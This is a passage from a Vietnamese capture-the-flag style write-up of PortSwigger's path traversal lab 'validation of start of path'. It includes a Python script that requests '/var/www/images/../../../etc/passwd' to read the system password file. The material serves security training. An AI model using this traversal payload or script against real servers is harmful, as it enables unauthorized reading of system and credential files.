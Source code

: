 ```python=
print(response.text) # hiển thị response có flag
```

![image](https://hackmd.io/_uploads/SkPsOvDKa.png)

mục đích của chúng ta đã hoàn thành và mình cũng đã giải được lab

![image](https://hackmd.io/_uploads/rkb3uDwtT.png)

## 5. Lab: File path traversal, validation of start of path

link: https://portswigger.net/web-security/file-path-traversal/lab-validate-start-of-path

### Đề bài

![image](https://hackmd.io/_uploads/Sk27YDwYa.png)

### Phân tích

<ul>
    <li>tương tự bài trước mình đã dùng burp suite chặn các request và click vào View detail để chọn xem 1 sản phẩm
    </li>
    <li>và mình bắt được gói tin yêu cầu 1 file ảnh từ server 
    </li>
    <li>có vẻ bài dùng đường dẫn tuyệt đối đến file cần đọc  
    </li>
</ul>

![image](https://hackmd.io/_uploads/rknkqwwt6.png)

### khai thác

để kiểm tra lỗi Path traversal mình đã dùng các dấu **".\./"** để di chuyển lên các thư mục cha của thư mục hiện tại và với mục đích để đọc được file **/etc/passwd**

![image](https://hackmd.io/_uploads/HJDNcwDtT.png)

và mình cũng đã viết lại script

```python=
#!/usr/bin/python3.7
import requests
import re
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
# from bs4 import BeautifulSoup

url = 'https://0acf000a038b62dc819089dd00630009.web-security-academy.net'

session = requests.Session()

response = session.get(
    url + '/image?filename=/var/www/images/../../../etc/passwd',
    verify=False,
)

print(response.text) # hiển thị response có flag
```

